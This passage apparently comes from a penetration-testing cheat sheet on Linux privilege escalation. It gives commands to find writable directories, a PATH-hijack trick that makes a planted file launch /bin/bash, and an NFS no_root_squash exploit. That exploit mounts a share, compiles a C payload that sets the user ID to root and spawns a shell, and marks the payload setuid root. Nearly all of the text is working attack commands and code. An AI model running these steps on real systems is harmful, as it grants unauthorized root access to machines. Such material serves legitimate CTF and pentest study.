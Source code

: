 ```sh
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

Exploit:

```sh
export PATH="NEW_PATH:$PATH"
echo "/bin/bash"> NEW_PATH/FILE_LOADED
chmod +x NEW_PATH/FILE_LOADED
```

## NFS priv esc

NFS configuration:

```bash
cat /etc/exports
showmount -e 127.0.0.1
```

### Exploit no_root_squash

NFS configuration vulnerable:

```sh
cat /etc/exports | grep "no_root_squash"
```

First check if the target machine has any NFS shares

```bash
showmount -e IP_ADDRESS
```

If it does, then mount it to you filesystem

```bash
mkdir /tmp/mntDrive
sudo mount -o rw IP_ADDRESS:/PATH /tmp/mntDrive/
sudo mount -o rw,vers=2 IP_ADDRESS:/PATH /tmp/mntDrive/
```

Create payload:

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(){
    setresuid(0,0,0);
    system("/bin/bash -p");
    return 0;
}
```

```bash
gcc exploit.c -o exploit
cp exploit /tmp/mntDrive/exploit
cd /tmp/mntDrive
sudo chown 0:0 exploit
sudo chmod +sx exploit
```
